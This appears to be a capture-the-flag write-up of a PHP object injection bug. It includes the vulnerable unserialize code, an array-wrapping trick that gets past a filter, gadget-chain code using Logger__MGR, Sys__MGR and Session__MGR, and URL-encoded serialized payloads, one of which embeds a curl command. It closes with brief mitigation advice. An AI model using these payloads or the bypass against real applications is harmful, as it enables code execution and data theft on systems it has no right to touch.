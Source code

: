 # Description

- **Type:** PHP Object Injection (POI)
- **Location:** `/supersecretscript.php?deser=`
- **Severity:** High
- **Impact:** Code execution via destruct method chain
- **Confirmed:** Yes (Flag retrieved)
- **RCE:** Not fully achieved (restricted to hardcoded command)

During reconnaissance **/robots.txt** was found with **/supersecret.php** endpoint  

```
$deser=$_GET['deser'];
if($deser){
  if(substr($deser, 0,1)=="O"){
    die('objects prohinited!');
  }else{
    var_dump(unserialize($deser));
  }
}else{
  highlight_file(__FILE__);
}
```

By passing seriliazed object through deser parameter it is possible to make gadget chain .  

**Example of serialized object**  
> O:8:"Sys__MGR":2:{s:3:"cmd";s:27:"curl http://127.0.0.1:1001/";s:7:"message";s:5:"hello";}  

But since our string can't start with O, we can't insert it directly, but this can easily be avoided by wrapping it in array.  

## PoC

**To exploit Sys_MGR()**  

Correct constructed payload was achieved by following PHP object chain:  
```
$sys = new Sys__MGR();
$ref = new refClass($sys);
$prop = $ref->getProperty('cmd');
$prop->setAccessible(true);
$prop->setValue($sys, 'id');

$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger); 

echo urlencode(serialize($payload));
```

**As output we got**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22Logger__MGR%22%3A1%3A%7Bs%3A6%3A%22logger%22%3BO%3A8%3A%22Sys__MGR%22%3A2%3A%7Bs%3A13%3A%22%00Sys__MGR%00cmd%22%3Bs%3A27%3A%22curl+http%3A%2F%2F127.0.0.1%3A1001%2F%22%3Bs%3A7%3A%22message%22%3BN%3B%7D%7D%7D  
![Sys_MGR](../images/sys.jpg)

Unfortunately, we were unable to obtain RCE because in 7.0-8.0 versions of PHP __wakeup() calls every time deserialization, and immideatly throws **Exception**. However even though __wakeup() threw an exception, we observed that echo 'hellow' (from close()) still appeared in the output — suggesting that Logger__MGR::__destruct() was triggered, and it attempted to call $logger->close().  

Since Sys__MGR::__wakeup() failed, the object was likely partially constructed, but enough to trigger close() — and echo 'hellow' worked, even though system($cmd) never ran.  

**To exploit Session__MGR()**  

But we have second class with some flag (I guess CTF task).  
Same logic goes here, but instead of creating Sys__MGR object we create Session_MGR object  

```
$sys = new Session__MGR();


$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger);

echo urlencode(serialize($payload));
```
**Final payload:**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A"Logger__MGR"%3A1%3A%7Bs%3A6%3A"logger"%3BO%3A12%3A"Session__MGR"%3A1%3A%7Bs%3A17%3A"%00Session__MGR%00key"%3Bs%3A4%3A"flag"%3B%7D%7D%7D  

![Logger](../images/logger.jpg)



**Mitigation**  
In order to avoid such vulnerabilities, **never unserialize user input** or use of **allowed_classes**  
 

